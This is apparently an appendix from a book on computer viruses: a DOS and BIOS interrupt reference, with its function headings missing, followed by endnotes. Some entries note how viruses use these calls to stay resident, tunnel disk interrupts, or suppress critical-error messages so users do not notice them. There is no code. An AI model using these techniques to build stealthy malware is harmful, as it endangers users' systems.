Returns: al = 0 if successful, 0FFH if invalid timeRegisters: ah = 2FH Returns: es:bx = Pointer to the current DTA
This is the complement of function 1A. It reads the Disk Transfer Area address into the register pair es:bx.
Registers: ah = 31H
al = Exit code
dx = Memory size to keep, in paragraphs
Returns: (Does not return)
Function 31H causes a program to become memory resident, remaining in memory and returning control to DOS. The exit code in al should be set to zero if the program is terminating successfully, and something else (programmer defined) to indicate that an error occurred. The register dx must contain the number of 16 byte paragraphs of memory that DOS should leave in memory when the program terminates. For example, if one wants to leave a 367 byte COM file in memory, one must save 367+256 bytes, or 39 paragraphs. (That doesn't leave room for a stack, either.)
Registers: ah = 36H
dl = Drive no. (0=Default, 1=A, 2=B, 3=C . . . )
Returns: ax = 0FFFFH if invalid drive no., else secs/cluster
cx = Bytes per sector
bx = Number of free clusters
dx = Total number of clusters
Registers: ah = 38H
al = 0 to get standard country information
= Country code to get other country inforomation
al = 0FFH and bx = country code if c. code > 254
ds:dx points to a 32-byte data area to be filled in
Returns: c set if country code is invalid
bx = Country code
32-byte data area filled in
The country codes used by DOS are the same as the country codes used to place international telephone calls. The 32-byte data area takes the following format:
| Offset | Size | Description |
|---|---|---|
| 0 | 2 | Date and time code |
| 2 | 5 | Currency symbol string (ASCIIZ) |
| 7 | 2 | Thousands separator (ASCIIZ) |
| 9 | 2 | Decimal separator (ASCIIZ) |
| 11 | 2 | Date separator (ASCIIZ) |
| 13 | 2 | Time separator (ASCIIZ) |
| 15 | 1 | Currency symbol location (0=before, 1=after) |
| 16 | 1 | Currency decimal places |
| 17 | 1 | Time Format (1=24 hr, 0=12 hr clock) |
| 18 | 4 | Upper/lower case map call address |
| 22 | 2 | List separator string (ASCIIZ) |
| 24 | 8 | Reserved |
Registers: ah = 3BH
ds:dx points to ASCIIZ directory name
Returns: al = 0 if successful
The string passed to this function may contain a drive letter.
Registers: ah = 3CH
cl = Attribute of file to create
ds:dx points to ASCIIZ file name
Returns: c set if the call failed
ax = File handle if successful, else error code
This function creates the file if it does not exist. If the file does exist, this function opens it but truncates it to zero length.
Registers:ah = 3DH
ds:dx = Pointer to an ASCIIZ path/file name
al = Open mode
Returns: c = set if open failed
ax = File handle, if open was successful
ax = Error code, if open failed
This function opens the file specified by the null terminated string at ds:dx, which may include a specific path. The value inal is broken out as follows:
Bit 7: Inheritance flag, I.
I=0 means the file is inherited by child processes
I=1 means it is private to the current process.
Bits 4-6: Sharing mode, S.
S=0 is compatibility mode
S=1 is exclusive mode
S=2 is deny write mode
S=3 is deny read mode
S=4 is deny none mode.
Bit 3: Reserved, should be 0
Bit 0-2: Access mode, A.
A=0 is read mode
A=1 is write mode
A=2 is read/write mode
In this book we are only concerned with the access mode. For more information on sharing, etc., see IBM's Disk Operating System Technical Reference or one of the other books cited in the references. The file handle returned by DOS when the open is successful may be any 16 bit number. It is unique to the file just opened, and used by all subsequent file operations to reference the file.
Registers: ah = 3EH
bx = File handle of file to close
Returns: c = set if an error occurs closing the file
ax = Error code in the event of an error
This closes a file opened by Function 3DH, simply by passing the file handle to DOS.
Registers: ah = 3FH
bx = File handle
cx = Number of bytes to read
ds:dx = Pointer to buffer to put file data in
Returns: c = set if an error occurs
ax = Number of bytes read, if read is successful
ax = Error code in the event of an error
Function 3F reads cx bytes from the file referenced by handle bx into the buffer ds:dx. The data is read from the file starting at the current file pointer. The file pointer is initialized to zero when the file is opened, and updated every time a read or write is performed.
Registers:ah = 40H
bx = File handle
cx = Number of bytes to write
ds:dx = Pointer to buffer to get file data from
Returns: c = set if an error occurs
ax = Number of bytes written, if write is successful
ax = Error code in the event of an error
Function 40H writes cx bytes to the file referenced by handle bx from the buffer ds:dx. The data is written to the file starting at the current file pointer.
Registers: ah = 41H
ds:dx = Pointer to ASCIIZ string of path/file to delete
Returns: c = set if an error occurs
ax = Error code in the event of an error
This function deletes a file from disk, as specified by the path and file name in the null terminated string at ds:dx.
Registers: ah = 42H
al = Method of moving the pointer
bx = File handle
cx:dx = Distance to move the pointer, in bytes
Returns: c = set if there is an error
ax = Error code if there is an error
dx:ax = New file pointer value, if no error
Function 42H moves the file pointer in preparation for a read or write operation. The number in cx:dx is a 32 bit unsigned integer. The methods of moving the pointer are as follows: al=0 moves the pointer relative to the beginning of the file, al=1 moves the pointer relative to the current location, al=2 moves the pointer relative to the end of the file.
Registers: ah = 43H
al = 0 to get attributes, 1 to set them
cl = File attributes, for set function
ds:dx = Pointer to an ASCIIZ path/file name
Returns: c = set if an error occurs
ax = Error code when an error occurs
cl = File attribute, for get function
The file should not be open when you get/set attributes. The bits in cl correspond to the following attributes:
Bit 0 - Read Only attribute
Bit 1 - Hidden attrubute
Bit 2 - System attribute
Bit 3 - Volume Label attribute
Bit 4 - Subdirectory attribute
Bit 5 - Archive attribute
Bit 6 and 7 - Not used
Registers: ah = 47H
dl = Drive number, 0=Default, 1=A, 2=B, etc.
ds:si = Pointer to buffer to put directory path name in
Returns: c = set if an error occurs
ax = Error code when an error occurs
The path name is stored in the data area at ds:si as an ASCIIZ null terminated string. This string may be up to 64 bytes long, so one should normally allocate that much space for this buffer.
Registers: ah = 48H
bx = Number of 16-byte paragraphs to allocate
Returns: c set if call failed
ax = Segment of allocated memory
bx = Largest block available, if function fails
This function is the standard way a program allocates memory because of itself. It essentially claims a memory control block for a specific program.
Registers: ah = 49H
es = Segment of block being returned to DOS
Returns: al = 0 if successful
This function frees memory allocated by Function 48H, and returns it to DOS. The es register should be set to the same value returned in ax by Function 48H.
Registers: ah = 4AH
es = Block of memory to be modified
bx = Requested new size of block in paragraphs
Return: c set if call failed
al = Error code, if call fails
bx = Largest available block, if call fails
Registers: ah = 4BH
al = Subfunction code (0, 1 or 3), see below
ds:dx points to ASCIIZ name of program to exec
es:bx points to a parameter block for the exec
Returns: c set if an error
This function is used to load, and optionally execute programs. If subfunction 0 is used, the specified program will be loaded and executed. If subfunction 1 is used, the program will be loaded and set up with its own PSP, but it will not be executed. If subfunction 3 is used, the program is loaded into memory allocated by the caller. Subfunction 3 is normally used to load overlays. DOS allocates the memory for subfunctions 0 and 1, however it is the caller's responsibility to make sure that enough memory is available to load and execute the program. The EXEC parameter block takes the following form, for Subfunction 0 and 1:
| Offset | Size | Description |
|---|---|---|
| 0 | 2 | Segment of environment to be used for child |
| 2 | 4 | Pointer to command tail for child (typically PSP:80) |
| 6 | 4 | Pointer to first FCB for child (typically PSP:5C) |
| 10 | 4 | Pointer to second FCB for child (typically PSP:6C) |
| 14 | 4 | Child's initial ss:sp, placed here on return from subf. 1 |
| 18 | 4 | Child's initial cs:ip, on return from subfunction 1 |
Subfunction 0 does not require thelast twofields. For Subfunction 3, the parameter block takes this form:
| Offset | Size | Description |
|---|---|---|
| 0 | 2 | Segment at which to load code |
| 2 | 2 | Relocation factor to apply in relocating segments |
Registers: ah = 4CH
al = Return code
Returns: (Does not return)
This function closes all open files and returns control to the parent, freeing all memory used by the program. The return code should be zero if the program is terminating successfully. (This is the error level used in batch files, etc.) This function is the way most programs terminate and return control to DOS.
Registers: ah = 4EH
cl = File attribute to use in the search
ds:dx = Pointer to an ASCIIZ path/file name
Returns: ax = Error code when an error occurs, or 0 if no error
The ASCIIZ string at ds:dx may contain the wildcards * and ?. For example, "c:\dos\*.com" would be a valid string. This function will return with an error if it cannot find a file. No errors indicate that the search was successful. When successful, DOS formats a 43 byte block of data in the current DTA which is used both to identify the file found, and to pass to the Find Next function, to tell it where to continue the search from. The data in the DTA is formatted as follows:
| Byte | Size | Description |
|---|---|---|
| 0 | 21 | Reserved for DOS Find Next |
| 21 | 1 | Attribute of file found |
| 22 | 2 | Time on file found |
| 24 | 2 | Date on file found |
| 26 | 4 | Size of file found, in bytes |
| 30 | 13 | File name of file found |
The attribute is used in a strange way for this function. If any of the Hidden, System, or Directory attributes are set when Find Next is called, DOS will search for any normal file, as well as any with the specified attributes. Archive and Read Only attributes are ignored by the search altogether. If the Volume Label attribute is specified, the search will look only for files with that attribute set.
Registers: ah = 4FH Returns: ax = 0 if successful, otherwise an error code
This function continues the search begun by Function 4E. It relies on the information in the DTA, which should not be disturbed between one call and the next. This function also modifies the DTA data block to reflect the next file found. In programming, one often uses this function in a loop until ax=18, indicating the normal end of the search.
Registers: ah = 52H Returns: es:bx points to List of Lists
This DOS function is undocumented, however quite useful for getting at the internal DOS data structures--and thus quite useful for viruses. Since the List of Lists is officially undocumented, it does change from version to version of DOS. The following data fields seem to be fairly constant for DOS 3.1 and up:
| Offset | Size | Description |
|---|---|---|
| -12 | 2 | Sharing retry count |
| -10 | 2 | Sharing retry delay |
| -8 | 4 | Pointer to current disk buffer |
| -4 | 2 | Pointer in DOS segment to unread CON input |
| -2 | 2 | Segment of first memory control block |
| 0 | 4 | Pointer to first DOS drive parameter block |
| 4 | 4 | Pointer to list of DOS file tables |
| 8 | 4 | Pointer to CLOCK$ device driver |
| 0CH | 4 | Pointer to CON device driver |
| 10H | 2 | Maximum bytes/block of any device |
| 12H | 4 | Pointer to disk buffer info |
| 16H | 4 | Pointer to array of current directory structures |
| 1AH | 4 | Pointer to FCB table |
| 1EH | 2 | Number of protected FCBs |
| 20H | 1 | Number of block devices |
| 21H | 1 | Value of LASTDRIVE from CONFIG.SYS |
| 22H | 18 | NUL device driver header |
| 34H | 1 | Number of JOINed drives |
Many of the pointers in the List of Lists point to data structures all their own. The structures we've used are detailed in the text. For more info on others, see Undocumented DOS by Andrew Schulman et. al.
Registers: ah = 56H
ds:dx points to old file name (ASCIIZ)
es:di points to new file name (ASCIIZ)
Returns: al=0 if successful
This function can be used not only to rename a file, but to change its directory as well.
Registers: ah = 57H
al = 0 to get the date/time
al = 1 to set the date/time
bx = File Handle
cx = 2048*Hour + 32*Minute + Second/2 for set
dx = 512*(Year-1980) + 32*Month + Day for set
Returns: c = set if an error occurs
ax = Error code in the event of an error
cx = 2048*Hour + 32*Minute + Second/2 for get
dx = 512*(Year-1980) + 32*Month + Day for get
This function gets or sets the date/time information for an open file. This information is normally generated from the system clock date and time when a file is created or modified, but the programmer can use this function to modify the date/time at will.
This interrupt is called by DOS when a critical hardware error occurs. Viruses hook this interrupt and put a dummy routine in place because they can sometimes cause it to be called when it shouldn'tbe,andthey don'twantto givetheirpresence away. The most typical use is to make sure the user doesn't learn about attempts to write to write-protected diskettes, when they should only be read.
Registers:dx = Number of bytes to keep resident
cs = Segment of PSP
Returns: (Does not return)
Although this call has been considered obsolete by Microsoft and IBM since DOS 2.0 in favor of Interrupt 21H, Function 31H, it is still supported, and you find viruses that use it. The main reason viruses use it is to savespace. Since onedoesn't have to load ax and one doesn't have to divide dx by 16, a virus can be made a little more compact by using this interrupt.
Registers: ah = 13H
ds:dx = Pointer to interrupt handler disk driver
calls on read/write
es:bx = Address to restore int 13H to on halt
Return: ds:dx = value from previous invocation of this
es:bx = value from previous invocation of this
This function allows one to tunnel Interrupt 13H. Interrut 13H may be hooked by many programs, including DOS, but this allows the caller to get back to the vector which the DOS disk device driver calls to access the disk.
Registers: ax = 1600H
Return: al = 0 if Windows 3.x enhanced mode not running
al = Windows major version number
ah = Windows minor version number
This is the quickest and most convenient way to determine whether or not Windows is running.
This function is broadcast by Windows when it starts up. By hooking it, any program can learn that Windows is starting up. Typically, it is used by programs which might cause trouble when Windows starts to uninstall, or fix the trouble. A virus could also do things to accomodate itself to the Windows environment when it receives this interrupt function. By setting cx=0, an interrupt hook can tell Windows not to load. Alternatively, this interrupt can be used to tell Windows to load a virtual device driver on the fly. At least one virus, the Virtual Anarchy, makes use of this feature. Using it is, however, somewhat complex, and I would refer you to the source for Virtual Anarchy, as published in Computer Virus Developments Quarterly, Volume 2, Number 3 (Spring, 1994).
Registers: ax = 0
cx = Number of descriptors to allocate
Returns: c set if there was an error
ax = First selector
The allocated descriptors are set up as data segments with a base and limit of zero.
Registers: ax = 7
bx = selector
cx:dx = 32 bit linear base address
Returns: c set if there was an error
This function sets the base address of a selector created with function 0. The base address is where the segment starts.
Registers: ax = 8
bx = selector
cx:dx = 32 bit segment limit
Returns: c set if there was an error
This function sets the limit (size) of a segment created with function 0.
Registers: ax = 9
bx = selector
cl = access rights
ch = 80386 extended access rights
Returns: c set if there was an error
The access rights in cl have the following format: Bit 8: 0=absent, 1=present; Bit 6/7: Must equal callers current privilege level; Bit 4: 0=data, 1=code; Bit 3: Data:0=expand up, 1=expand down, Code: Must be 0; Bit 2: Data:0=read, 1=Read/write, Code: Must be 1; and the extended access rights in ch have the format: Bit 8: 0=byte granular, 1=page granular; Bit 7: 0=default 16 bit, 1=default 32 bit.
Registers: ax = 501H
bx:cx = Requested block size, in bytes
Returns: c set if there was an error
bx:cx = Linear address of allocated memory block
si:di = Memory block handle
Registers: ax = 502H
si:di = Memory block handle
Returns: c set if there was an error
This interrupt functions just like Interrupt 13H, only it works only for floppy disks. It is normally invoked by the Interrupt 13H handler once that handler decides that the requested activity is for a floppy disk. Viruses sometimes use this interrupt directly.
There are a number of worthwhile development tools for the virus or anti-virus programmer interested in getting involved in advanced operating systems and the PC's BIOS.
1 R. Raskin and M. Kabay, "Keeping up your guard", PC Magazine, March 16, 1993, p. 209.
2 Virus Bulletin, January, 1994, p. 14.
3 The Crypt Newsletter, No. 8.
4 Schwartau, Win, Information Warfare, (Thunder's Mouth, New York:1994).
5 Such a virus, the Tax Break, has actually been proposed, and it may exist.
6 Please refer to my other book, Computer Viruses, Artificial Life and Evolution, for a detailed discussion of these matters.
1 Fred Cohen, Computer Viruses, (ASP Press, Pittsburgh:1986). This is Cohen's 1985 dissertation from the University of Southern California.
2 Fred Cohen, It's Alive, The New Breed of Living Computer Programs, (John Wiley, New York:1994), p. 54.
3 The term "self-reproducing automaton" was coined by computer pioneer John Von Neumann. See John Von Neumann and Arthur Burks, Theory of Self-Reproducing Automata (Univ. of Illinois Press, Urbana: 1986).
1 See Ralf Brown & Jim Kyle, PC Interrupts (Addison-Wesley, 1991).
2 This much is the same for both hardware and software interrupts.
1 We'll discuss FCBs more in the next chapter.
1 Andrew Schulman, et. al., Undocumented DOS, (Addison Wesley, New York:1991) p. 518. Some documentation on the List of Lists is included in this book in Appendix A where DOS Function 52H is discussed.
1 NCSA News, (Mechanicsburg, PA), Vol. 3, No. 1, January 1992, p. 11.
2 Note that Stoned needs a copy of the partition table even if its code never uses it. That's because the BIOS and DOS both look for the table in the Master Boot Sector. If the Master Boot Sector (viral or not) didn't have the table and you booted from the A: drive, the C: drive would disappear. Furthermore, you couldn't even boot from the C: drive.
1 Refer to the Resources section at the end of this book for information on how to get plugged into this network.
2 Note that newer versions of DOS also support a device driver format that looks more like an EXE file, with an EXE-style header on it. We will not discuss this type of driver here.
1 Fred Cohen, It's Alive (John Wiley, New York:1994).
2 N. Derek Arnold, Unix Security, A Practical Tutorial, (McGraw Hill, New York:1992) Chapter 13.
3 Cybersoft Inc., 1508 Butler Pike, Conshohocken, PA 19428, (610)825-4748, e-mail [email protected]
1 Ralf Burger, Computer Viruses and Data Protection, (Abacus, Grand Rapids, MI:1991) p. 252.
2 Frederick B. Cohen, A Short Course on Computer Viruses, (ASP Press, Pittsburgh, PA:1990), p. 82.
1 See Computer Virus Developments Quarterly, Vol. 1, No. 4 (Summer, 1993).
1 See Computer Virus Developments Quarterly, Vol. 1, No. 4, Summer, 1993.
2 See Computer Virus Developments Quarterly, Vol. 2, No. 4, Summer, 1994.
3 80386 Programmers Reference Manual, (Intel Corp., Santa Clara, CA:1986).
4 See Computer Virus Developments Quarterly, Vol. 2, No. 3, Spring 1994.
1 286+ processors have a look-ahead instruction cache which grabs code from memory and stores it in the processor itself before it is executed. That means you can write something to memory and modify that code, and it won't be seen by the processor at all. It's not much of a problem with 286's, since the cache is only several bytes. With 486's, though, the cache is some 4K, so you've got to watch self-modifying code closely. Typically, the way to flush the cache and start it over again is to make a call or a near/far jump.
2 Donald E. Knuth, The Art of Computer Programming, Vol. 2, Seminumerical Algorithms, (Addison Wesley, Reading, MA: 1981), pp. 1-170.
1 An easy to follow introduction to the halting problem and Turing machines in general is presented in Roger Penrose, The Emperor's New Mind, (Oxford University Press, New York: 1989).
2 The theorem and proof presented here are adapted from WIlliam F. Dowling, "There Are No Safe Virus Tests," The Teaching of Mathematics, (November, 1989), p. 835.
3 A number of very high level educational researchers seem to agree with me too. For example, Benjamin Bloom, the father of Outcome Based Education wrote that "a single hour of classroom activity under certain conditions may bring about a major reorganization in cognitive as well as affective domains." (Taxonomy of Educational Objectives, 1956, p. 58). Couldn't a virus do the same?
4 Available from various internet sites, as well as on The Collection CD.
1Consult the Resources section in this book for more information.
2A good way to learn to think about simulating hardware failure is to get a book on fixing your PC when it's broke and studying it with your goal in mind.
1See Fred Cohen's books, A Short Course on Computer Viruses, and It's Alive! for further discussion of this subject.
2This is the same algorithm that PGP uses internally to speed the RSA up.
33 "HPP" stands for "Hashed Pass Phrase".
[Back to index] [Comments]